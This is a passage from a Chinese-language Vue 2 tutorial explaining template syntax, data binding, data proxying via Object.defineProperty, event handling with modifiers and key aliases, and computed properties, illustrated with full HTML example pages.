

不同Vue对象中是允许出现同名属性的。



> 总结，Vue对象与容器绑定是一一对应的，不存在一对多或多对一的情况。

vue的**插值语法**`{{}}`中的内容要写成<strong style="color:red">**js表达式**</strong>才会生效，所谓**js表达式**，就是其表述的结果都会生成一个值，变量有对应一个数值，计算式有计算结果，函数有返回结果。常见的表达式有：

+ `{{变量名}}`，js变量名就对应js变量，默认有变量值；
+ `{{a+b}}`，计算表达式，默认返回计算结果；
+ `{{function()}}`，函数调用表达式。默认返回函数调用结果；
+ `{{a===b ? 'x' : 'y' }}`,三元表达式也返回结果，也可以用。

对比**js代码**，if()语句或者for()语句就是js代码，它们只是控制代码的执行流程，并不会生成具体的值，因此它们不能放到插值语法中。

Vue对象管理的data数据与容器中展示页面内容是**动态绑定**的。也就是data一旦变化，页面内容也会同时变化，这是Vue帮我们操作的DOM。

查看**Vue对象实例**是可以直接在`Vue-developTools`中查看的。



如果不使用new关键字去调用Vue,是会报错的，因此Vue是构造函数，需要用new调用才可创建实例。



开发版Vue对象的源码5791行：这里就是Vue源码校验是否用new关键字。

```js
 function Vue(options) {
      //检测Vue对象中的this是不是Vue对象，不是就会弹出没有new关键字的警告，因为用new创建的对象this才是它自己。
      if (!(this instanceof Vue)) {
          warn$2('Vue is a constructor and should be called with the `new` keyword');
      }
      this._init(options);
}
```

### 2.4 Vue2模板语法

Vue模板语法有两大类：**插值语法**与**指令语法**。

1. **插值语法**:功能用于解析**标签体内容**，写法为{{xxx}},xxx为js表达式，可以直接读取到data中的所有属性;
2. **指令语法**:功能用于**解析标签**(包括标签属性、标签体内容、绑定事件等...),写法为`v-bind:属性名=xxx`或简写为`:属性名=xxx`,xxx同样是js表达式，也可以直接读取到data中的所有属性;
3. 除了`v-bind`外，vue中很多其他指令形式也是v-xxx。

对于标签属性的内容，使用插值语法是无法读取数据的`<a href="{{url}}">百度地址</a>`,会报错。



`v-bind`就是Vue的一种指令语法。它的意思就是将绑定的js表达式的结果赋予给对应的标签属性。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>hello-Vue2</title>
    <!-- 引入Vue,引入开发版本 -->
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>

  <body>
    <!-- 容器 -->
    <div id="root">
      <h1>插值语法</h1>
      <h3>你好，{{name}}</h3>
      <hr />
      <h1>指令语法</h1>
      <!-- 使用的v-bind后，url就相当于js表达式，而不是单纯的字符串了，跟插值的效果一样 -->
      <a v-bind:href="url" he="hel">百度地址:{{school.name}}</a>
      <!--v-bind的简写就是:,它可以绑定任意的标签属性-->
      <a :href="school.url.toUpperCase()" :he="school.hello+1">百度地址</a>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false
      new Vue({
        el: "#root",
        data: {
          name: "Vue",
          //多层级对象属性,不同层级同名对象不会冲突
          school: {
            name: "学习名",
            url: "www.baidu.com",
            hello: "其他属性"
          }
        }
      })
    </script>
  </body>
</html>
```

v-bind绑定属性的效果



### 2.5 数据绑定 data

数据绑定是分为**单向绑定**与**双向绑定**的。

* **单向数据绑定**，使用`v-bind`指令。它是data中数据变化，Vue就会重新解析模板刷新页面数据。`data--->页面`。

* **双向数据绑定**，使用`v-model`指令。它不仅有单向数据绑定的效果，也就是数据是变化，页面也会变化。同时还有接受页面输入数据，从而**修改Vue实例中的数据**。`data<--->页面`。

  `v-model`一般只能应用在表单类元素(输入类元素)上，例如input输入框、select等，不能输入的元素没有**value值**，也就捕获不到用户输入的内容，就不能影响data。因此`v-model`只使用在输入类元素。

  `v-model:value`可以简写为`v-model`,因此v-model**只绑定value值**。

````html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>hello-Vue2</title>
    <!-- 引入Vue,引入开发版本 -->
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 容器 -->
    <div id="root">
      单向数据绑定:<input type="text" v-bind:value="name" />
      <br />
      双向数据绑定:<input type="text" v-model:value="name" />
      <!-- 错误代码演示，v-model只能用在输入类元素上 -->
      <!-- <h2 v-model:x="name"></h2> -->
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false
      new Vue({
        el: "#root",
        data: {
          name: "张三"
        }
      })
    </script>
  </body>
</html>

````



### 2.6 el与data两种写法

Vue中绑定容器有两种方法：

1. 使用Vue构造函数的配置对象中`el`属性进行容器绑定；
2. 使用Vue实例的原型对象上的`$mount()`函数进行挂载容器。

Vue中的data有两种写法：

1. **对象式**，就是直接将data写成一个对象；
2. **函数式**，将data写成函数，返回值是个对象。**为保证this指向Vue实例，data函数写普通函数，不要使用箭头函数**。

> 注意：以后写组件时，data必须使用函数式写法，使用对象式会报错。
>
> 一个重要原则：**由Vue管理的函数，一定不要写箭头函数，否则this就不再是Vue实例**。函数式写法的data就是Vue管理函数中的一个。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>hello-Vue2</title>
    <!-- 引入Vue,引入开发版本 -->
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>

  <body>
    <!-- 容器 -->
    <div id="root">
      <h1>你好!{{name}}</h1>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;
      const v = new Vue({
        //写法1:el配置
        // el: "#root",
        //写法1:对象式
        // data: {
        //   name: "张三"
        // }
        //写法2:函数式，要求函数必须返回一个对象
        // data: function () {
        //   console.log(this); //this指向当前Vue实例对象
        //   return {
        //     name: "李四"
        //   };
        // }
        //可简写省略:function
        data() {
          console.log(this); //this指向当前Vue实例对象
          return {
            name: "王五"
          };
        }
      });

      ////写法2，$mount函数配置
      //使用定时器可以延时绑定 $mount更灵活 mount是挂载的意思
      setTimeout(() => {
        v.$mount("#root"); //指定容器 $mount是Vue原型对象上的方法
      }, 1000);
    </script>
  </body>
</html>
```

## 三、MVVM架构（了解）

**MVVM(Model-View-Viewmodel)**是一种软件架构模式。该架构有助于将图形用户界面的开发与业务逻辑或后端逻辑(数据模型)的开发分离开来(**实现前后端分离**)。

MVVM模型在Vue中理解：

+ **M是模型model**，对应data中的数据；
+ **V是视图view**，对应模板代码；
+ **VM是视图模型viewmodel**:对应Vue实例,以后对于Vue实例的变量名我们使用vm。

总结：`(model)data`中所有属性，最后都会出现在`(viewmodel)vm`身上，而**`(viewmodel)vm`身上所有的属性和Vue原型上所有的属性**，在`(view)Vue模板`中都可以直接使用。

## 四、数据代理（了解）

`Object.defineProperty`方法会直接在一个对象上定义一个新属性或者修改一个对象现有属性。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <script>
      let person = {
        name: "zhangsan",
        sex: "男"
        // age: 18  直接设置属性
      };

      //1.使用Object.defineProperty定义属性，可对追加的属性做更高级的设置
      Object.defineProperty(person, "age", {
        value: 19, //属性值
        enumerable: true, //控制属性是否能被枚举，默认是false
        writable: true, //控制属性是否能被修改，默认值是false
        configurable: true //控制属性是否可以被删除，默认值是false
      });

      console.log(Object.keys(person)); //['name', 'sex', 'age']

      //2.使用Object.defineProperty高级设置完成数据绑定 让number变量与age属性绑定
      let number = 18;
      let person2 = {
        name: "zhangsan",
        sex: "男"
      };
      Object.defineProperty(person2, "age", {
        //age值是get函数，当有人访问读取age值时，该getter函数被调用，返回值是age值
        get: function () {
          console.log("age被访问");
          return number; //每次读取age值都去询问number的值
        },

        //age值是set函数，当有人修改age值时，该setter函数被调用，且会收到修改的具体值value
        set: function (value) {
          console.log("age被修改为" + value);
          number = value; //修改age时同时修改number
        }
      });

      console.log(person2);
    </script>
  </body>
</html>
```

**数据代理：通过一个对象代理对另一个对象中属性的操作。**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <script>
      let obj = { x: 100 };
      let obj2 = { y: 200 };
      //最简单的数据代理，让obj2中的x属性与obj中的x绑定
      Object.defineProperty(obj2, "x", {
        get() {
          return obj.x;
        },

        set(value) {
          obj.x = value;
        }
      });
      console.log(obj2);
    </script>
  </body>
</html>
```

Vue中data对象的数据代理,data属性实际上是代理的vm对象上`_data`的内容。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>学习：{{name}}</h2>
      <h2>学习地址：{{address}}</h2>
    </div>
    <script>
      Vue.config.productionTip = false;
      //将data提取出来验证
      let data = {
        name: "zhangshan",
        address: "北京"
      };
      const vm = new Vue({
        el: "#root",
        data //data:data的简写写法
      });

      console.log(vm);
      //Vue中data也做了数据代理，它将data配置对象存入vm对象上属性_data中，并添加两个新的data属性作为该对象属性的代理
      //vm._data === vm.options.data===data, options就是new Vue中的配置对象
      console.log(vm._data === data); //true
    </script>
  </body>
</html>
```



Vue中数据代理作用就是能更方便的操作data中数据。不用每次访问属性都是`_data.属性名`。

其原理就是通过`Object.defineProperty`把data对象中所有属性都添加到vm上，为每一个添加到vm上的属性都指定一个`getter/setter`，在`getter/setter`内部去操作data中对应的属性。

## 五、事件

js中常见的事件有点击事件，change事件，键盘按键事件以及其他控件事件。

### 5.1 事件绑定

Vue中事件绑定使用`v-on:xxx`或者`@xxx`,其中xxx是事件名。

事件的回调函数需要配置在`methods`对象中，其内容最终会出现在vm实例上。不要直接在`data`中配置函数，虽然也会生效，但该函数**会做无意义的数据代理**。

`methods`中配置的函数，都是被Vue所管理的函数，**this指向vm或组件实例对象**。不要使用箭头函数，否则this就不是vm。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>学习：{{name}}</h2>
      <button v-on:click="showInfo">点我提示信息</button>
      <button v-on:click="showInfo2">点我提示信息2</button>
      <!-- v-on简写@ 可传递参数-->
      <button @click="showInfo3(66)">点我提示信息3</button>
      <!-- v-on简写@ 可传递参数,使用$event占位-->
      <button @click="showInfo4(77,$event)">点我提示信息4</button>
      <!-- v-on简写@ 可传递参数,使用$event占位 $event位置随意写-->
      <button @click="showInfo5($event,88,'aa')">点我提示信息5</button>
      <!-- v-on简写@ 可传递参数,-->
      <button @click="showInfoError($event,99)">点我提示信息6</button>
    </div>
    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三",
          //函数配置在data中可以生效，但不要这样写
          showInfoError(e, number) {
            console.log("错误写法" + number);
          }
        },
        methods: {
          showInfo() {
            alert("弹窗");
          },
          //默认传参
          showInfo2(event) {
            console.log(event.target); //<button>点我提示信息2</button>
            console.log(this); //Vue实例化对象
          },
          showInfo3(number, e) {
            console.log(number); //66
            console.log(e); //undefined
          },
          showInfo4(number, e) {
            console.log(number); //77
            console.log(e); //event对象
          },
          showInfo5(e, number, x) {
            console.log(number); //88
            console.log(e); //event对象
            console.log(x); //aa
          }
        }
      });
    </script>
  </body>
</html>
```

### 5.2 事件修饰符

Vue中事件修饰符主要有6个：

1. `prevent`:阻止默认事件(常用)，相当于`e.preventDefault()`函数调用；
2. `stop`:阻止事件冒泡(常用),相当于`e.stopPropagation()`函数调用；
3. `once`:事件只触发一次(常用)，相当于事件函数触发一次就解除了绑定；
4. `capture`:事件使用捕获模式，相当于事件在**捕获阶段就执行函数**，而不是冒泡阶段执行函数；
5. `self`:只有`event.target`是当前操作元素时才触发事件，相当于必须**元素自己才能触发事件**；
6. `passive`:事件的**默认行为立即执行**，无需等待事件回调函数执行完毕。常用于移动端相关事件。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
    <style>
      * {
        margin-top: 20px;
      }
      .demo1 {
        height: 50px;
        background-color: red;
      }
      .box1 {
        padding: 5px;
        background-color: blue;
      }

      .box2 {
        padding: 5px;
        background-color: yellow;
      }

      .list {
        width: 200px;
        height: 200px;
        background-color: peru;
        overflow: auto;
      }

      li {
        height: 100px;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <h2>学习：{{name}}</h2>
      <a href="http://www.baidu.com" @click="showInfo">点我提示信息</a>
      <!-- 1.阻止默认行为 .prevent-->
      <a href="http://www.baidu.com" @click.prevent="showInfo2">点我2</a>
      <!-- 2.阻止事件冒泡 .stop-->
      <div class="demo1" @click="showInfo">
        <button @click.stop="showInfo">点击</button>
      </div>
      <!-- 3.事件只触发一次 .once-->
      <button @click.once="showInfo">点击</button>

      <!-- 4.事件使用捕获模式 .capture 也就是事件在捕获阶段就执行函数，而不是冒泡阶段执行函数-->
      <!-- 点击div2打印顺序为1,2 如果不配置capture 打印顺序就是2，1 -->
      <div class="box1" @click.capture="showMsg(1)">
        div1
        <div class="box2" @click="showMsg(2)">div2</div>
      </div>

      <!-- 5. 要求触发事件的元素必须是自己 .self。 只有event.target是当前操作元素时才触发事件-->
      <!-- 外部配置.self 点击内部按钮，外部函数不会触发 。点击外部div，会触发外部函数。该配置也能阻止冒泡 -->
      <div class="demo1" @click.self="showInfo3">
        <button @click="showInfo3">点击</button>
      </div>

      <!-- 6. .passive  事件的默认行为立即执行，无需等待事件回调执行完毕 -->
      <!-- @scroll是滚动条滚动触发事件 @wheel是鼠标滚轮滚动触发事件 -->
      <!-- @wheel事件触发顺序是 触发事件，执行回调函数，函数执行完成后执行默认行为滚动条滚动 -->
      <ul @wheel.passive="demo" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
      </ul>
        
      <!-- 7. 多种事件同时触发 既要阻止冒泡也阻止默认行为-->
      <div class="demo1" @click="showInfo">
        <!-- 这是先阻止默认行为再阻止冒泡 -->
        <a href="http://www.baidu.com" @click.stop.prevent="showInfo">点我1</a>
        <!-- 这是先阻止冒泡再阻止默认行为 -->
        <a href="http://www.baidu.com" @click.prevent.stop="showInfo">点我2</a>
      </div>
    </div>
    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三"
        },
        methods: {
          showInfo(e) {
            alert("弹窗");
            // e.preventDefault(); //阻止默认行为
            // e.stopPropagation(); //阻止事件冒泡
          },
          showInfo2() {
            alert("弹窗2");
          },
          showMsg(v) {
            console.log(v);
          },
          showInfo3(e) {
            console.log(e.target);
          },
          demo() {
            for (let i = 0; i < 10000; i++) {
              console.log("#");
            }
            console.log("函数执行完成");
          }
        }
      });
    </script>
  </body>
</html>
```

### 5.3 键盘事件

常用的按键别名:**回车=>enter、删除=>delete(退格和删除两个键都触发)、退出=>esc、空格=>space、换行=>tab 、上下左右=>up down left right**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
    <style>
      * {
        margin-top: 20px;
      }
      .demo1 {
        height: 50px;
        background-color: red;
      }
      .box1 {
        padding: 5px;
        background-color: blue;
      }

      .box2 {
        padding: 5px;
        background-color: yellow;
      }

      .list {
        width: 200px;
        height: 200px;
        background-color: peru;
        overflow: auto;
      }

      li {
        height: 100px;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <h2>学习：{{name}}</h2>
      <!-- keyup与keydown事件 -->
      <input type="text" placeholder="按下回车提示输入" @keyup="showInfo" />

      <!-- 1. enter是常用按键的别名，表示按下enter按键才触发事件 -->
      <!-- 常用的按键别名 回车=>enter 删除=>delete 退出=>esc 空格=>space 换行=>tab  上下左右=>up down left right -->
      <input type="text" placeholder="按下回车输入" @keyup.enter="showInfo2" />
      <!-- Enter才是回车按钮的真正名称key keyCode 13 -->
      <input type="text" placeholder="按下回车输入" @keyup.Enter="showInfo2" />

      <!-- 2.CapsLock按钮 CapsLock 20 这种多个单词组成的，写的名称必须小写中间用-连接 caps-lock -->
      <input type="text" placeholder="CapsLock" @keyup.caps-lock="showInfo2" />
      
      <!-- 3.tab键有移除光标的功能，因此要在切换光标前触发事件，因此使用keydown才能触发事件 -->
      <input type="text" placeholder="tab" @keydown.tab="showInfo2" />
      <!-- 4.系统修饰键 ctrl alt shift meta 
         配合keyup使用时，是按下修饰键的同时再按下其他键，随后释放其他按键，事件才会被触发,例如ctrl+a 结果打印的就是 a 65
         配合keydown使用时，直接正常触发-->
      <input type="text" placeholder="ctrl" @keyup.ctrl="showInfo2" />
      <input type="text" placeholder="alt" @keydown.alt="showInfo2" />

      <!-- 5.直接使用key值，enter的key值是13 不推荐使用，已经被抛弃 -->
      <input type="text" placeholder="enter" @keyup.13="showInfo2" />

      <!-- 6.自定义按键别名 -->
      <input type="text" placeholder="enter" @keyup.huiche="showInfo2" />
        
      <!-- 7. 只有按下ctrl+y时才触发-->
      <input type="text" placeholder="ctrl+Y" @keyup.ctrl.y="showInfo2" />
    </div>

    <script>
      Vue.config.productionTip = false;
      //定义按键别名
      Vue.config.keyCodes.huiche = 13; //定义的回车的别名是huiche
      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三"
        },
        methods: {
          showInfo(e) {
            //只有按下回车才触发打印input中的值
            if (e.keyCode !== 13) return;
            console.log(e.target.value);
          },
          showInfo2(e) {
            console.log(e.target.value);
            console.log(e.key, e.keyCode);
          }
        }
      });
    </script>
  </body>
</html>
```

## 六、属性与样式绑定

### 6.1 计算属性 computed

小案例：姓名联动

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br /><br />
      名: <input type="text" v-model="lastName" /> <br /><br />
      <!-- 1. 插值语法的实现 不推荐直接在模板中使用过多公式 -->
      姓名: <span>{{firstName.slice(0,3)}}-{{lastName}}</span> <br /><br />
      <!-- 2. methods方法实现 在插值语法中调用方法 只要data中属性发生改变，vm就会重新解析模板，函数会被重新调用-->
      姓名2: <span>{{fullName()}}</span>
    </div>

    <script>
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          firstName: "张",
          lastName: "三"
        },
        methods: {
          fullName() {
            return this.firstName.slice(0, 3) + "-" + this.lastName;
          }
        }
      });
    </script>
  </body>
</html>
```

**计算属性**：通过**已有的属性计算出来的结果**作为新属性的值，其原理借助`Object.defineproperty`方法提供的`gettter`与`setter`方法。

计算属性的get方法执行时机：1.计算属性值**初次**被读取时，执行一次；2.当**依赖的数据发生变化**时，get会被执行。

计算属性的set方法执行时机：如果计算属性被修改，那必须写set函数去响应修改，且set中要修改计算属性所依赖的属性数据。计算属性最终会出现在vm实例上，直接读取使用即可。

计算属性与methods实现相比，内部有**缓存**机制，效率更高且调试方便，因为在Vue开发者工具中可直接查看计算属性内容。

计算属性可简写,**只读取数据不修改时，才可简写计算属性**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br /><br />
      名: <input type="text" v-model="lastName" /> <br /><br />
      <!-- 计算属性，多次读取同一数据是有缓存的 -->
      姓名: <span>{{fullName}}</span> <br /><br />
      姓名: <span>{{fullName}}</span> <br /><br />
